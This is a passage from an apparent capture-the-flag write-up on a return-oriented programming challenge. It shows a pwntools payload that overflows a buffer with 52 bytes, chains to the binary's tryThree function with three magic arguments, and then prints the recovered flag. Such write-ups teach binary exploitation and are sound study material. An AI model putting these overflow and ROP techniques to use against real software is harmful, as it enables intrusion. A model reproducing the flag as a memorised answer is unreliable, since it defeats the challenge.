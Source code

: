 ### Stage 3: Execute tryThree()

And the stage 3 is just the same:

```
payload = cyclic(52)
payload += flat(exe.sym['tryThree'])
payload += flat(exe.sym['main'])
payload += p32(0xd00dface)
payload += p32(0xdeadbeef)
payload += p32(0xf00dcafe)
p.sendafter(b'All the Best :)', payload)
```

Full code: [solve.py](solve.py)

# 4. Get flag

![get_flag.png](images/get_flag.png)

Flag is `p_ctf{y3s_1t_w4s_a_R0p_4gh2e7c0}`